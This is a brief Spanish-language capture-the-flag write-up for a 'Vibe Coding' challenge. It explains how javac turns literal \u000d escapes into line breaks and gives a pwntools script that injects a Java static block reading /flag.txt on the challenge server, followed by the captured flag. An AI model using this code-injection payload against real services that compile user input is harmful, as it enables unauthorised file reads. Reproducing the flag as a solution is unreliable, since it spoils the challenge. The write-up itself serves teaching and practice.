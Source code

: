 # Vibe Coding

El compilador de Java (javac) interpreta cadenas unicode literales y las convierte a su correspondiente unicode antes de la compilacion, convierte ("\u000d" y "\u000a" en saltos de linea)

Mas informacion aqui: https://www.baeldung.com/java-executable-comments

Exploit para leer la flag:
``` python
from pwn import *
#io = process(["python3","server.py"])
io = remote("vibe-coding.atreides.b01lersc.tf",8443,ssl=True,sni=True)
io.recvuntil(b"> ")
# Codigo para leer flag.txt
io.sendline(b"\u000d static { try { System.out.println(new String(java.nio.file.Files.readAllBytes(java.nio.file.Paths.get(\"/flag.txt\")))); } catch (Exception e) {System.out.println(e);} } \u000d //")
# Hola mundo de prueba
#io.sendline(b"\u000d static { System.out.println(\"Hello, World!\"); } \u000d //")

output = io.recvall()
print(output.decode())
```

`bctf{un1c0d3_abn0rmal1z4t1on_493e42fc}`
 
